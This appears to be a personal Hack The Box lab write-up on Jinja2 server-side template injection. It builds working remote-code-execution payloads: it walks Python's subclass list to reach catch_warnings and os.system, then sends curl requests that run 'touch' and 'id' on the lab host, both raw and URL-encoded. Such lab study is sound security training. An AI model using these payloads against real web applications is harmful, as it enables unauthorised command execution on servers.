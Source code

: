 Now pointing to this [blog on python class heirarchy](https://www.fatalerrors.org/a/0dhx1Dk.html)

Built the following function which I think you can modify in order to obtain a subclass:
```python
s = 'HTB' # any string will do
# Prints out the index in the list for the class type you wish
def searchfunc(name):
     x = s.__class__.mro()[1].__subclasses__()
     for i in range(len(x)):
             fn = x[i].__name__
             if fn.find(name) > -1:
                     print(i, fn)

searchfunc('warning') # prints out 140 warning in the VM
```
We are looking for class warning as it imports the sys module, from sys os can be reached. 

To then gain remote execution from our index:
```python
x[140]()._module.__builtins__['__import__']('os').system('echo RCE from a string object')
```
(they missed the x in the guide)

Now running:
```bash
curl -gs "http://94.237.51.159:30981/execute?cmd={{''.__class__}}"
curl -gs "http://94.237.51.159:30981/execute?cmd={{''.__class__.__mro__}}"
curl -gs "http://94.237.51.159:30981/execute?cmd={{''.__class__.__mro__[1]}}"
curl -gs "http://94.237.51.159:30981/execute?cmd={{''.__class__.__mro__[1].__subclasses__()}}"
```

Now try the following when URL encoded:
```python
{% for i in range(450) %} 
{{ i }}
{{ ''.__class__.__mro__[1].__subclasses__()[i].__name__ }} 
{% endfor %}
```
My `catch_warnings` is at 214. Running the RCE:
```python
{{''.__class__.__mro__[1].__subclasses__()[214]()._module.__builtins__['__import__']('os').system("touch /tmp/test1") }}
```
cURL:
```bash
curl -gs "http://94.237.51.159:30981/execute?cmd={{''.__class__.__mro__[1].__subclasses__()[214]()._module.__builtins__['__import__']('os').system('touch /tmp/test1') }}
"
```
Have to run URL encoded:
```bash
curl -gs "http://94.237.51.159:30981/execute?cmd=%7B%7B%27%27.__class__.__mro__%5B1%5D.__subclasses__%28%29%5B214%5D%28%29._module.__builtins__%5B%27__import__%27%5D%28%27os%27%29.system%28%22touch%20%2Ftmp%2Ftest1%22%29%20%7D%7D"
```
encoding with one comand:
```bash
 curl --get -gs --data-urlencode "cmd={{lipsum.__globals__.os.popen('id').read()}}" "http://94.237.51.159:30981/execute"
```




